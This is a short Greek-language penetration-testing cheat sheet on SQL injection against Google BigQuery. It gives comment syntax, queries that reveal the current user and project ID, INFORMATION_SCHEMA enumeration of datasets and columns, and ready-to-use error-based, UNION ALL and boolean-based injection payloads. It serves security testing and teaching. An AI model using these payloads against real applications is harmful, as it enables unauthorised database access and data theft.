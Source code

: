 ### BigQuery SQL Injection

Για περισσότερες πληροφορίες μπορείτε να ελέγξετε την ανάρτηση του blog: [https://ozguralp.medium.com/bigquery-sql-injection-cheat-sheet-65ad70e11eac](https://ozguralp.medium.com/bigquery-sql-injection-cheat-sheet-65ad70e11eac). Εδώ θα δοθούν μόνο μερικές λεπτομέρειες.

**Σχόλια**:

- `select 1#from here it is not working`
- `select 1/*between those it is not working*/` Αλλά μόνο η αρχική δεν θα λειτουργήσει
- `select 1--from here it is not working`

Πάρτε **πληροφορίες** σχετικά με το **περιβάλλον** όπως:

- Τρέχων χρήστης: `select session_user()`
- ID έργου: `select @@project_id`

Συνδυάστε γραμμές:

- Όλα τα ονόματα πινάκων: `string_agg(table_name, ', ')`

Πάρτε **datasets**, **tables** και **column** ονόματα:

- **Project** και **dataset** όνομα:
```sql
SELECT catalog_name, schema_name FROM INFORMATION_SCHEMA.SCHEMATA
```
- **Ονόματα** στήλης και **πίνακα** όλων των **πινάκων** του συνόλου δεδομένων:
```sql
# SELECT table_name, column_name FROM <proj-name>.<dataset-name>.INFORMATION_SCHEMA.COLUMNS

SELECT table_name, column_name FROM <project-name>.<dataset-name>.INFORMATION_SCHEMA.COLUMNS
```
- **Άλλα σύνολα δεδομένων** στο ίδιο έργο:
```sql
# SELECT catalog_name, schema_name, FROM <proj-name>.INFORMATION_SCHEMA.SCHEMATA

SELECT catalog_name, schema_name, NULL FROM <project-name>.INFORMATION_SCHEMA.SCHEMATA
```
**Τύποι SQL Injection:**

- Βασισμένο σε σφάλματα - casting: `select CAST(@@project_id AS INT64)`
- Βασισμένο σε σφάλματα - διαίρεση με το μηδέν: `' OR if(1/(length((select('a')))-1)=1,true,false) OR '`
- Βασισμένο σε Union (πρέπει να χρησιμοποιήσετε ALL στο bigquery): `UNION ALL SELECT (SELECT @@project_id),1,1,1,1,1,1)) AS T1 GROUP BY column_name#`
- Βασισμένο σε Boolean: `` ' WHERE SUBSTRING((select column_name from `project_id.dataset_name.table_name` limit 1),1,1)='A'# ``
- Πιθανώς βασισμένο σε χρόνο - Χρήση δημόσιων συνόλων δεδομένων παράδειγμα: `` SELECT * FROM `bigquery-public-data.covid19_open_data.covid19_open_data` LIMIT 1000 ``

**Τεκμηρίωση:**

- Λίστα όλων των συναρτήσεων: [https://cloud.google.com/bigquery/docs/reference/standard-sql/functions-and-operators](https://cloud.google.com/bigquery/docs/reference/standard-sql/functions-and-operators)
- Δηλώσεις scripting: [https://cloud.google.com/bigquery/docs/reference/standard-sql/scripting](https://cloud.google.com/bigquery/docs/reference/standard-sql/scripting)
